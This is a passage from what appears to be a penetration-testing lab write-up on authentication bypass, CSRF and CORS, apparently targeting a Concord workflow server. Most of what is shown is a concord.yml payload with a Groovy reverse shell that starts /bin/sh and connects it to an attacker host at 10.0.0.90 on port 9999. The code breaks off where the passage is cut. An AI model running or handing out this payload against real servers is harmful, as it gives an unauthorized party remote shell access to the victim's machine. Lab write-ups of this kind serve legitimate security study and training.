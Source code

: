 ![Untitled](Authentication%20Bypass%20CSRF%20and%20CORS%20658a554abaa9455a8e07bb61d46f2080/Untitled%203.png)

We can use a Groovy reverse shell from [revshells](https://www.revshells.com/) (which is a standard java reverse shell). This forms the `concord.yml` file that will be used as the payload. 

```yaml
configuration:
  dependencies:
  - "mvn://org.codehaus.groovy:groovy-all:pom:2.5.21"
flows:
  default:
  - script: groovy
    body: |
	    String host="10.0.0.90";
	    int port=9999;
	    String cmd="/bin/sh";
	    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
	    Socket s=new Socket(host,port);
	    InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
	    OutputStream po=p.getOutputStream(),so=s.getOutputStream();
	    while(!s.isClosed()) {
	      while(pi.available()>0)
	        so.write(pi.read());
	      while(pe.available()>0)
	        so.write(pe.read());
	      while(si.available()>0)
	        po.write(si.read());
	      so.flush();
	      po.flush();
	      Thread.sleep(50);
	      try {
	        p.exitValue();
	        break;
	      }
```
